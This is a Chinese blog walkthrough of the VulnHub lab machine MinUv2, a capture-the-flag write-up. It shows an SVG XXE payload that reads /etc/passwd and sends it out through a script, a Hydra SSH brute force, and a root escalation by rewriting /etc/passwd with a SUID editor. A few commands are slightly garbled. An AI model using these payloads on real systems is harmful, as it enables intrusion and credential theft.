 ```yaml
---
layout: post
toc: true
title: "「渗透」SVG的神秘力量：minUv2"
date: 2019-09-01
author: Bin4xin
categories: [blog, Web, 漏洞复现, 渗透, vulnhub]
permalink: /blog/2019/minUv2/
---
```


- categories:
    - blog
    - Web
    - 漏洞复现
    - 渗透
    - vulnhub

# 序言
hello,各位。最近闲来无事，工作之余偷偷用公司电脑测试入侵了一个linux靶机，遂记录下。（手动狗头）
这个靶机本身难度适中，复现了svg的代码执行漏洞且要求对linux的系统命令较为熟悉；svg大体来说是一种图像文件格式，基于XML，由W3C联盟进行开发的，支持网页打开，编辑方便等。可以自行深入搜索~各位大佬见笑。
## 一、靶机简介
minUv2下载地址:

<a href="https://download.vulnhub.com/minu/MinUv2.ova.7z">Download (Mirror)</a>

<a href="https://download.vulnhub.com/minu/MinUv2.ova.7z.torrent">Download (Torrent)</a>


## 二、实战
江湖规矩，神器开路：首先先用`Nmap`扫描确定靶机地址。发现靶机ip。
这里靶机只支持vbox，所以得桥接通信，打码请谅解~

![](https://p2.ssl.qhimg.com/t0167faf934cb9977ca.png)

确定ip直接端口扫描~
![](https://p4.ssl.qhimg.com/t011687f39e33bbe3e4.png)
发现只开放了两个端口：`22、3306`端口。22端口暂时先放着不管，咱们看看3306端口。
是一个web页面，emmmm.主角登场，svg图像~
![](https://p0.ssl.qhimg.com/t019035849ce7a48ccf.png)

## 三、发现漏洞
小弟赶紧dirb扫描一波，果然有发现。

```
#扫描3306端口下的html后缀的文件
dirb http://$_ip:port -X .html
--------------
+ http://$_ip:port/upload.html (CODE:200|SIZE:908)
--------------
DOWNLOADED: 4612 - FOUND: 1
```
发现了上传网页，且只能上传svg、img文件，又惊又喜。exp搜索一哈找到poc，验证一下漏洞的存在。poc代码如下：
```
#poc上传上去页面回显
#<!DOCTYPE svg [
<!ELEMENT svg ANY >
<!ENTITY xxe SYSTEM "/etc/passwd">
]>
<svg version="1.0" xmlns="http://www.w3.org/2000/svg" width="19000px" xmlns:xlink="http://www.w3.org/1999/xlink" >
<text x="-1000" y="-1000" >&xxe;</text>
<circle cx="50" cy="50" r="40" stroke="black" stroke-width="3" 		fill="red" />
<script>
var logger = "http://localhost/?file=" +
encodeURIComponent(document.getElementsByTagName("text")	[0].innerHTML);
document.createElementNS('http://www.w3.org/2000/svg','image').setAttributeNS('http://www.w3.org/1999/xlink','href', logger);
</script></svg>
```

果然有`xxe`漏洞，但是验证了漏洞不能让我们有实际的渗透进展，只能对一些文件内容进行查看，无法得到shell，要怎么办呢？

![](https://p1.ssl.qhimg.com/t0163eb735e597071e2.png)

## 四、get shell
就在小弟愁眉苦脸的时候，忽然看到最后一行用户名的进程是/bin/ash，想到bash shell会有历史纪录，赶紧重新上传一个poc验证想法。回显内容：<br>
```
"./ash.history"获取~
Useradd –D bossdonttrackme –p superultrapass3
```
根据所得的内容生成用户字典（passwd回显的用户名），密码字典。用Hydra跑一下。
```
##hydra -L /root/Documents/test/minu/use.txt -P /root/Documents/test/minu/passwd.txt ssh://$_ip
Hydra v8.9.1 (c) 2019 by van Hauser/THC - Please do not use in military or 
secret service organizations, or for illegal purposes.
[WARNING] Many SSH configurations limit the number of parallel tasks, it is
recommended to reduce the tasks: use -t 4	[DATA] max 16 tasks per 1 server, overall 16 tasks, 30 login tries (l:30/p:1), ~2 tries per task
[DATA] attacking ssh://$_ip:22/
[22][ssh] host: $_ip ** login: employee password: superultrapass3**
1 of 1 target successfully completed, 1 valid password found
##跑出来账号密码employee：uperultrapass3，ssh连上去。
##连接上去查看一下基本信息 
ssh employee@ip
whoami
id | find -perm -4000 2>/dev/null
```
![](https://p5.ssl.qhimg.com/t013dbd6663c5c9720e.png)

## 五、提权
发现`micro`和`bbsuid`不需要高权限，运行一下，发现micro是一个`文本编辑工具器`。接下来就简单了。
```
#生成一份hash值，替换掉passwd的用户密码，这样密码就已知了。
#用micro编辑器打开passwd文件，替换root密码保存即可
passwd -1 -salty root admin123(随意)
cat /etc/passwd |/usr/bin/micro
```
![](https://p5.ssl.qhimg.com/t0198aaa755e6394b0f.png)

这样我们就已知root密码了，直接切换用户
```
minuv2:~$ su root
Password: 
minuv2:/home/employee# whoami
root
minuv2:/home/employee#
```
![](https://p2.ssl.qhimg.com/t01aefe59b403bdcc5c.png)
获得flag~感谢各位

